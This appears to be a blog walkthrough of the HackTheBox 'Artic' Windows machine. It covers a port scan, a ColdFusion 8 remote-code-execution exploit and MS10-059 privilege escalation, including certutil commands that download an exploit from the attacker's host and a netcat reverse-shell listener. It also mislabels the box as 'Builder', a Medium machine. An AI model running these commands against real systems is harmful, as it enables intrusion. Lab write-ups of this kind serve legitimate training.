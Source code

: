 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-26-artic-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Artic @ HackTheBox
---
```


Artic is a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. An exposed admin login portal exposes a version number which once exploited, gains initial access to the internal server. Root access is gained by using a kernel exploit.

## User & Root Flag
This post is a walkthrough for Builder, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.28.252`) shows the following results:
```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## User
Visiting port 8500 and visiting the CFIDE folder, eventually you will find `administrator/enter.cfm`.<br>
The site exposes `Cold Fusion 8`, when looking this up reveals a RCE exploit.<br>
`https://www.exploit-db.com/exploits/50057`

```
locate 50057.py
/usr/share/exploitdb/exploits/cfm/webapps/50057.py

cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .

python 50057.py // remember to edit the file to include your lhost/lport & rhosts etc.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Root
Checking systeminfo with `systeminfo` reveals an out-dated OS version.
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          1/7/2025, 11:11:40 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.051 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.220 MB
Virtual Memory: In Use:    1.065 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.28.252
```
Using windows-exploit-suggestor, you find the system is vulnerable to `MS10-059`.
this exploit can be found on: `https://github.com/SecWiki/windows-kernel-exploits`<br>
Download & upload this file to the victim machine.<br>
```
[YOU] python3 -m http.server 80 // host file
[VICTIM] certutil.exe -urlcache -f http://your_ip/MS10-059.exe MS10-059.exe 
[YOU] nc -lvnp 1234
[VICTIM] .\MS10-059.exe your_ip 1234
```
![root-flag](root.png)